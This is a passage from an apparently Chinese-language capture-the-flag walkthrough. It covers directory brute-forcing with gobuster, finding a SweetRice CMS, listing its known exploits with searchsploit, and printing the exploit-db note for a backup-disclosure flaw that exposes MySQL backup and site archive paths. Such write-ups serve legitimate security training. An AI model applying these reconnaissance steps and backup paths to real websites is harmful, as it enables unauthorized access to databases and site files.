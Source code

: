然后，我运行`gobuster`工具对目录进行暴力破解，发现了一个名为`/content`的子目录。浏览到`/content`子目录，我发现网络服务器正在运行一个名为“SweetRice”的内容管理系统，如下所示:

![](img/100acd2e347432e3b2c0227a7095b69c.png)

http:// <target ip="" address="">/content 的内容</target>

于是我使用`searchsploit`获得了一个与 SweetRice CMS 相关的漏洞列表:

```
**└─$ searchsploit sweetrice** 
 [...] Exploit Title | Path
 — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
SweetRice 0.5.3 — Remote File Inclusion | php/webapps/10246.txt
SweetRice 0.6.7 — Multiple Vulnerabilities | php/webapps/15413.txt
SweetRice 1.5.1 — Arbitrary File Download | php/webapps/40698.py
SweetRice 1.5.1 — Arbitrary File Upload | php/webapps/40716.py
SweetRice 1.5.1 — Backup Disclosure | php/webapps/40718.txt
SweetRice 1.5.1 — Cross-Site Request Forgery | php/webapps/40692.html
SweetRice 1.5.1 — Cross-Site Request Forgery / PHP Code Execution | php/webapps/40700.html
SweetRice < 0.6.4 — ‘FCKeditor’ Arbitrary File Upload | php/webapps/14184.txt [...]
```

我决定先尝试利用 *SweetRice 1.5.1 —备份披露*漏洞，因此`cat`给出了运行漏洞的指令:

```
**└─$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt**
Title: SweetRice 1.5.1 — Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: [http://www.basic-cms.org/](http://www.basic-cms.org/)
Software URL: [http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip](http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip)
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016Proof of Concept :You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backupand can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```
